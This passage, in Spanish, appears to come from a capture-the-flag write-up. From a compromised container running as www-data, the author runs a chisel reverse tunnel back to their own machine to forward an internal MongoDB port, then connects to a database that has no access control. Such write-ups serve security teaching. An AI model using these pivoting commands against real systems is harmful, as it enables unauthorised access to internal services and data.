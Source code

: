 Observamos varios puertos conocidos y los enlazamos con sus respectivos Servicios. Empezamos con el host `172.17.0.2` (**MongoDB**), el cuál es un sistema de base de datos noSQL

Ya que nos encontramos en un contenedor y nos tenemos muchas herramienta, lo que hacemos es simples palabras es **enviar el tráfico del puerto de nuestra máquina objetivo a un puerto de nuestra máquina local** (Remote port Forwarding). Para ello usamos la herramienta `chisel`:

```console
www-data@3c371615b7aa:/tmp$ ./chisel client 10.10.14.10:1234 R:27017:172.17.0.2:27017 
2022/09/06 03:16:42 client: Connecting to ws://10.10.14.10:1234
2022/09/06 03:16:43 client: Connected (Latency 107.222922ms)


──────────────────────────────────────────────────────────────────────────────────────────────
❯ ./chisel server -p 1234 --reverse
2022/09/05 22:15:59 server: Reverse tunnelling enabled
2022/09/05 22:15:59 server: Fingerprint nShNhlTjchKbgbrQZJUbJbiHDf9bMQpcNzs14TxFejY=
2022/09/05 22:15:59 server: Listening on http://0.0.0.0:1234
2022/09/05 22:16:39 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening


───────────────────────────────────────────────────────────────────────────────────────────────
❯ netstat -tlnp | grep 27017
tcp6       0      0 :::27017                :::*                    LISTEN      10520/./chisel 
```

> Puedes encontrar la herramienta chisel en su repositorio [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
{: .prompt-info}

> Aquí tienes más información sobre la creación de túneles con chisel y más [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
{: .prompt-tip}

Con el puerto en nuestra máquina local, ahora tenemos el servicio de **MongoDB** en nuestro puerto 27017 (puede ser cualquiera, pero por temas de orden y reconocimiento usamos el mismo). Para entrar a la base de datos usamos la herramienta **mongo** (shell interactiva en Javascript), y automáticamente de conectará como **localhost** al puerto **27017** (parámetros por defecto):

```console
❯ mongo
MongoDB shell version v5.3.1
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("bb80bd61-3499-4d16-a3a4-39802bf17b68") }
MongoDB server version: 5.0.6
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
---
The server generated these startup warnings when booting: <---------- Here!
        2022-09-05T17:34:57.402+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
        2022-09-05T17:35:05.174+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
---
        Enable MongoDB's free cloud-based monitoring service, which will then receive and display
        metrics about your deployment (disk utilization, CPU, operation statistics, etc).

```